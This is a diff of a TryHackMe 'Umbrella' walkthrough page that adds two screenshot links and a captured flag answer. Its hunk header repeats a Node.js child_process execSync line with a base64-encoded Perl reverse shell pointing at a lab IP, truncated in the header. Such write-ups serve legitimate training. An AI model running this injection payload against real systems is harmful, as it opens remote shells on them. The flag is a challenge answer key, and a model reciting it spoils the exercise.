

Before and after one commit to r1skkam/TryHackMe-Walkthroughs, a Markdown page: umbrella/umbrella.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/umbrella/umbrella.md
+++ b/umbrella/umbrella.md
@@ -274,3 +274,9 @@ require('child_process').execSync('echo cGVybCAtZSAndXNlIFNvY2tldDskaT0iMTAuMTcu
 ![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/2b388510-5e92-4550-a478-140b0e6bedb6)
 
 ![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/b401e5c5-f1bd-4750-9551-d8c3c51a4630)
+
+![image](https://github.com/r1skkam/TryHackMe-Walkthroughs/assets/58542375/a668f60a-5479-4b06-9e11-5ec16665b1e5)
+
+```
+THM{1e15fbe7978061c6bb1924124fd9eab2}
+```
````
